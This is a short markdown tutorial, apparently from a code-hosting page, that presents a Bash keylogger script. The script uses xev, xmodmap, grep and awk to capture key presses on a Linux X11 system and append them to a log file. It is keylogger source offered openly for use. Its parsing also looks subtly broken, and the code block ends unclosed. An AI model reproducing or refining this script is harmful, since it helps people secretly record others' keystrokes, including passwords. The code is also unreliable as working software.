 # Basic Keylogger in Bash

This document provides a basic example of a keylogger implemented in Bash using `xev` and `xinput` on a Linux system. The script captures and logs keystrokes to a file.

## Requirements

1. **Linux System with X11:** This script is designed for systems running the X Window System.
2. **xinput and xev:** These tools are typically pre-installed on many Linux distributions. If not, you can install them using your package manager.

## Keylogger Script

Save the following script as `keylogger.sh`:

```sh
#!/bin/bash

# Log file to save the captured keystrokes
log_file="keylog.txt"

# Function to log key events
log_key_events() {
    # Use xev to capture key events
    xev -event keyboard | while read -r line; do
        # Extract key press events
        if echo "$line" | grep -q "KeyPress"; then
            # Extract keycode and convert to keyname
            keycode=$(echo "$line" | grep "keycode" | awk '{print $6}')
            keyname=$(xmodmap -pk | grep "^$keycode" | awk '{print $4}')
            if [[ -n "$keyname" ]]; then
                echo "$keyname" >> "$log_file"
            fi
        fi
    done
}

# Run the key event logging function
log_key_events
